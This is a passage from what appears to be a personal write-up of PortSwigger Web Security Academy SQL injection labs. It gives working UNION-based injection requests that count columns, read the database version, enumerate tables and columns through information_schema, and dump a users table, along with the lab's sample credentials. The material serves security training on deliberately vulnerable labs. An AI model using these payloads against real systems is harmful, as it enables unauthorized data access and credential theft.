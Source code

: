 ```http
GET /filter?category=Gifts'ORDER+BY+2# HTTP/1.1
```

As you can see, there are two columns. To get the version I followed the same [cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), which states that I should use `SELECT @@version` to get the version of the database (this is true for MySQL, and Microsoft databases).

```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,@@version--+ HTTP/1.1
```

### Lab 6

> SQL injection attack, listing the database contents on non-Oracle databases

With the `ORDER BY` method I found out that the query retrieves only two columns.

Since I didn't know the name of the table containing all the users, I tried using the GET request:

```http
GET /filter?category=Accessories'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- HTTP/1.1
```

Which returned a pretty long list of tables. Among them, there was one named `users_nasavc`, which should be the table needed. I still didn't know the name of the columns though. To retrieve them, I used the following request:

```http
GET /filter?category=Accessories'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+TABLE_NAME='users_nasavc'-- HTTP/1.1
```

I got the following columns:

- `username_kdfgxz`
- `password_luvdsv`

Finally, I retrieved the usernames and password with below request:

```http
GET /filter?category=Accessories'+UNION+SELECT+username_kdfgxz,password_luvdsv+FROM+users_nasavc-- HTTP/1.1
```

| username_kdfgxz | password_luvdsv      |
| --------------- | -------------------- |
| administrator   | p69iz8xwhbad22ks619p |
| carlos          | a4kqlobrlemxo4h7bkvd |
| wiener          | 1rkwle6yx0yzrn8l5lpj |

All I needed to do now was to login with administrator's credentials.

### Lab 7

> SQL injection attack, listing the database contents on Oracle
